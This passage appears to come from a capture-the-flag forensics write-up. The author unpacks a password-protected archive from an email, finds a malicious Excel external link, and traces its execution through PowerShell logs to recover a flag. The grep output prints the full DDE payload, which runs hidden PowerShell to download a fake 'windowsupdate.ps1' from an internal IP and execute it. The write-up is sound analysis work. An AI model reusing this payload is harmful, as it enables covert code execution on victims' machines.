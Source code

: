 
We find the email in the same folder with some rdp settings.
The email contains the password to open the 7z attachment that it has (Password is Privacy4411@2023!!!).   

We unzip the contents of the archive ( an xlsx file which is basically an archive) and then unzip the xlsx again.  

Examining it's contents we see some suspicious Powershell script:  

We use grep -ir "powershell" .  
```

./xl/externalLinks/externalLink1.xml:<externalLink xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" mc:Ignorable="x14" xmlns:x14="http://schemas.microsoft.com/office/spreadsheetml/2009/9/main"><ddeLink xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" ddeService="cmd" ddeTopic="/c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\&quot;http://172.21.20.96/windowsupdate.ps1\&quot;);IEX $e"><ddeItems><ddeItem name="_xlbgnm.A1" advise="1"/><ddeItem name="StdDocumentName" ole="1" advise="1"/></ddeItems></ddeLink></externalLink>
```

Looking at the Powershell logs in C:/Windows/system32/winevt/logs we see the execution of the script we saw in document.


so now we have a time of execution.

![](/assets/img/2023-01-16-11-51-04.png)



In the P-shell Operational log we see the script and can afterwards decode it to get the flag.

